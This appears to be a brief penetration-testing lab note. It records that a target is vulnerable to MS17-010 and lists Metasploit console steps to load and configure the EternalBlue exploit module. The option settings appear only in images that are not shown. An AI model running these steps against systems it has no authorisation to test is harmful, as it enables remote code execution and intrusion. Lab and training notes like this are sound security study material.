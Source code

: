```yaml
---
title: 3. Metasploit Exploitation
updated: 2023-03-25T13:17:13.0000000+04:00
created: 2023-03-25T13:13:39.0000000+04:00
---
```


3\. Metasploit Exploitation
Saturday, March 25, 2023
1:13 PM

So we found that it is vulnerable to MS17-010

- Which is a remote code execution exploit

We will use metasploit to exploit this:

1.  Msfconsole
2.  Search ms17
3.  Use exploit/windows/smb/ms17_010_eternalblue
4.  Show options

![image1](image1-247.png)

5.  Set options below

![image2](image2-111.png)

